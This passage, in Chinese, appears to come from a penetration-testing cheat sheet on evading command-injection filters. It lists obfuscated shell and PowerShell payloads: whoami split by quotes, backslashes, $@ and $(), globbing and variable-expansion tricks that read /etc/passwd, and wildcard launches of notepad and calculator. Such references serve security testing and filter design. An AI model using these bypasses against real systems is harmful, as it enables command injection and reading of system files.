 #### 使用单引号绕过

```powershell
w'h'o'am'i
```

#### 使用双引号绕过

```powershell
w"h"o"am"i
```

#### 使用反斜杠和斜杠绕过

```powershell
w\ho\am\i
/\b\i
/////s\h
```

#### 使用 $@ 绕过

`$0`：如果作为脚本运行，则指脚本的名称。如果在交互式 shell 会话中，`$0` 通常会给出 shell 的名称。

```powershell
who$@ami
echo whoami|$0
```

#### 使用 $() 绕过

```powershell
who$()ami
who$(echo am)i
who`echo am`i
```

#### 使用变量扩展绕过

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

#### 使用通配符绕过

```powershell
powershell C:\*\*2
??e*d.*? # 记事本
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # 计算器
```

## 数据泄露
